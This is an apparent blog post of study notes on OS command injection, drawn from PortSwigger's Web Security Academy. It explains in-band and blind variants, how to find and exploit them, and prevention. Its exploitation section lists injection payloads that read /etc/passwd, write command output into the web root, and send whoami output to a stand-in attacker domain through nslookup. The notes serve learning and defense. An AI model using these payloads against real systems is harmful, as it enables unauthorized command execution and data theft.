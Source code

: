 ```yaml
---
layout: post
title:  "PortSwigger - Command Injection - Theory"
date:   2024-07-06 13:40
image:  /images/portswigger/WebSecurityAcademy.png
tags:   [command-injection]
categories: [PortSwigger]
---
```


# Introduction
>OS Command Injection is a vulnerability that consists of an attacker executing commands on the host operating system via a vulnerable application.
<br/>
<br/>
<b>Reference:</b>
<br/>
<a href="https://academy.ranakhalil.com/courses/1491236/lectures/38308201">Rana Khalil Academy - OS Command injection</a>
<br/>
<a href="https://portswigger.net/web-security/os-command-injection">PortSwigger - OS Command Injection</a>
<br/>
<a href="https://owasp.org/www-community/attacks/Command_Injection">OWASP - Command Injection</a>
<br/>
<a href="https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html">OWASP - OS Command Injection Defense Cheat Sheet</a>
<br/>

### Two conditions for OS Command Injection vulnerabilities:
<hr/>

1. Uses a function that can execute system commands such as exec.
1. The parameter of executable methods are user controllable.

![Code vulnerable to command injection](/images/portswigger/CommandInjection/VulnerableCommandInjectionCodeExample.png)

### Types of Command Injection
<hr/>

#### In-band Command Injection
Consists of an attacker executing commands on the host operating system via a vulnerable application and `receiving the response of the command in the application.`
<br/>

#### Blind Command Injection
Consists of an attacker executing commands on the host operating system via a vulnerable application `that does not return the output from the command within its HTTP response.`
<br/>

### Impact of Command Injection Attacks:
- Unauthorized access to the application:
    - `Confidentiality` - Command injection can be used to view sensitive information.
    - `Integrity` - Command Injection can be used to alter content in the application.
    - `Availability` - Command Injection can be used to delete content in the application.
- Remote code execution on the operating system.

![OWASP - Injection Ranking](/images/portswigger/CommandInjection/OWASP_Injection_Ranking)

### How to find Command Injection ?
<hr/>

#### Black-Box Testing
- Map the application
    - Identify all instances where the web application appears to be interacting with the underlying operating system. 
- Fuzz the application. 
    - Shell metacharacters: &, &&, |, ||, ;, \n, `, $(). 
- For in-band command injection, analyze the response of the application to determine if it’s vulnerable. 
- For blind command injection, you need to get creative. 
    - Trigger a time delay using the ping or sleep command. 
    - Output the response of the command in the web root and retrieve the file directly using a browser. 
    - Open an out-of-band channel back to a server you control.

#### White-Box Testing
- Perform a combination of black box and white-box testing. 
- Map all input vectors in the application. 
- Review source code to determine if any of the input vectors are added as parameters to functions that execute system commands. 
- Once a vulnerability is identified, test it to confirm that it is exploitable.

### How to exploit command injection ?
<hr/>
#### Exploiting In-band Command injection
- Shell metacharacters:
```
&
&& 
|
|| 
;
\n
`
$()
```
- Concatenate another command
```
127.0.0.1 && cat /etc/passwd &
127.0.0.1 & cat /etc/passwd &
127.0.0.1 || cat /etc/passwd &
```
#### Exploiting Blind Command Injection
- Shell metacharacters: 
```
&
&&
|
||
;
\n
`
$()
```
- Trigger a time delay
```
127.0.0.1 && sleep 10 &
127.0.0.1 && ping -c 10 127.0.0.1 &
```
- Output the response of the command in the web root and retrieve the file directly using a browser
```
127.0.0.1 & whoami > /var/www/static/whoami.txt #
```
- Open an out-of-band channel back to a server you control.
```
127.0.0.1 & nslookup kgji2ohoyw.web-attacker.com &
127.0.0.1 & nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

### How to prevent Command injection ?
<hr/>

#### Preventing Command Injection Vulnerabilities
The most effective way to prevent OS command injection vulnerabilities is to never call out to OS commands from application-layer code. Instead, implement the required functionality using safer platform APIs.
- For example: use mkdir() instead of system("mkdir/dir_name")

It is required to perform OS commands using user-supplied input, then strong input validation must be performed. 
- Validate against a whitelist of permitted values. 
- Validate that the input is as expected or valid input.
<hr/>